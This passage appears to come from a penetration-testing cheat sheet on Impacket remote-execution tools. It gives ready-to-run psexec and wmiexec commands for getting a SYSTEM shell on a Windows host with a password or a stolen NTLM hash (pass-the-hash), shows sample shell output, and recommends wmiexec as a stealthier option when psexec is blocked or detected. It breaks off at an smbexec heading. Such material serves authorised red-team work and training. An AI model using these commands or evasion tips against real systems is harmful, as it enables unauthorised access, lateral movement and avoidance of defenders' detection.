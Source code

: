 
## 1. Remote Code Execution (RCE)

### psexec.py - Interactive Shell (Most Common)

**When:** You have admin credentials, need full shell

```bash
# With password
impacket-psexec 'CORP/administrator:Password123@10.10.10.10'

# With NTLM hash (Pass-the-Hash)
impacket-psexec -hashes ':8846f7eaee8fb117ad06bdd830b7586c' 'administrator@10.10.10.10'

# Specify domain controller
impacket-psexec 'CORP/administrator:Password123@10.10.10.10' -dc-ip 10.10.10.5

# Output:
# C:\Windows\system32> whoami
# nt authority\system    ← You have SYSTEM (highest privilege)
```

**What it does:**
- Uploads service executable via SMB
- Creates Windows service
- Executes commands as SYSTEM
- Interactive shell

**Time: 10 seconds to shell**

---

### wmiexec.py - Stealthier Alternative

**When:** psexec is blocked/detected

```bash
# Same syntax as psexec
impacket-wmiexec 'CORP/administrator:Password123@10.10.10.10'

# With hash
impacket-wmiexec -hashes ':HASH' 'administrator@10.10.10.10'
```

**Advantages over psexec:**
- No service creation (stealthier)
- Uses WMI (Windows Management Instrumentation)
- Less likely to be blocked

**Time: 10 seconds**

---

### smbexec.py - Semi-Interactive
